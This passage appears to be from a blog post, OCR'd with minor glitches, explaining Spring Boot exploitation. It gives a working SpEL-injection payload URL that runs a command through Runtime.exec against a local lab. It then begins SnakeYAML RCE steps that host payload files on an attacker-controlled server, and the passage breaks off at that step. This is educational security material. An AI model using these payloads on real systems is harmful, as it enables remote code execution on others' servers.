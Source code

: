  |

#### Vulnerability Principle:

- spring-boot processing parameter value error, the process enters the org.springframework.util.PropertyPlaceholderHelperclass

- At this point, the parameter value in the URL will be recursively parsed with the parseStringValuemethod

- ${} The content enclosed in it will be parsed and executed by org.springframework.boot.autoconfigure.web.ErrorMvcAutoConfigurationthe resolvePlaceholdermethod as a SpEL expression, resulting in an RCE vulnerability

[](https://www.blogger.com/#)

#### Vulnerability Analysis:

- [SpringBoot SpEL Expression Injection Vulnerability - Analysis and Reproduction](<https://cdmana.com/2021/06/20210611111018700V.html>)

**Vulnerable environment:**

[repository/springboot-spel-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-spel-rce)

Normal access:

```
http://127.0.0.1:9091/article?id=66 _
```

Execute the open -a Calculatorcommand :

|

http: //127.0.0.1:9091/article?id=${T(java.lang.Runtime).getRuntime().exec(new%20String(new%20byte[]{0x6f,0x70,0x65,0x6e,0x20 ,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}

 |

### Spring Cloud SnakeYAML RCE

**[](https://www.blogger.com/#)Conditions of use:**

- You can POST requests to the /envinterface set properties

- You can POST request the /refreshinterface refresh the configuration ( spring-boot-starter-actuatordependency exists)

- spring-cloud-starter version of target dependency < 1.3.0.RELEASE

- The target can request the attacker's HTTP server (the request can go out of the Internet)

[](https://www.blogger.com/#)**How to use:**

[](https://www.blogger.com/#)**Step 1:** Host yml and jar files

Open a simple HTTP server on the VPS machine you control, and try to use common HTTP service ports (80, 443)
